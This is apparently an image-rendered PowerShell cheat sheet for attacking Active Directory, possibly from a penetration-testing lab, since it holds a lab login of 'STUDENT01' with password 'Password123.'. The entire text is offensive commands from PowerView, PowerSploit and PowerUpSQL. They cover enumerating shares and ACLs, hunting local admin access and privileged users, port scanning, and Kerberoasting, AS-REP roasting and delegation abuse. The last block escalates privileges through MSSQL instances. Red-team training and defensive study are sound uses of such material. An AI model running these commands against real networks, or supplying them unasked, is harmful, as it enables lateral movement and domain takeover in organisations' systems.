 ```powershell
Get-NetGPOGroup
Get-NetFileServer
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint -CheckShareAccess
Invoke-ACLScanner -ResolveGUIDs | select IdentityReference,ActiveDirectoryRights,ObjectDN | ft

# Start to move laterally/escalate privileges
Find-LocalAdminAccess -Verbose -NoPing
Find-WMILocalAdminAccess -Verbose
Find-PSRemotingLocalAdminAccess -Verbose
Find-PSRemotingLocalAdminAccessCreds -Username "STUDENT01" -Password "Password123." -Verbose

# User Hunting (default: Domain Admins)
Invoke-UserHunter
Invoke-UserHunter -CheckAccess

# Port Scanning (PowerSploit)
Invoke-Portscan -Hosts @(Get-NetComputer) -TopPorts 100 | %{echo $_.Hostname; echo "--- OPEN ---"; echo $_.openPorts; echo "------------"; echo ""}

# Privilege Escalation
Get-NetUser -SPN # Kerberoasting
Get-NetComputer -Unconstrained # Unconstrained delegation
Get-DomainUser -PreauthNotRequired -Verbose # ASREPRoasting (PowerView_dev)
Get-DomainUser -TrustedToAuth # Constrained delegation (user)
Get-DomainComputer -TrustedToAuth # Constrained delegation (computer)

# Look for interesting MSSQL instance
Import-Module .\PowerUpSQL.psd1
Get-SQLInstanceDomain
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfoThreaded -Verbose
Invoke-SQLAudit -Verbose -Instance "SQLServer1\Instance1"
Invoke-SQLEscalatePriv -Verbose -Instance "SQLServer1\Instance1"
```
---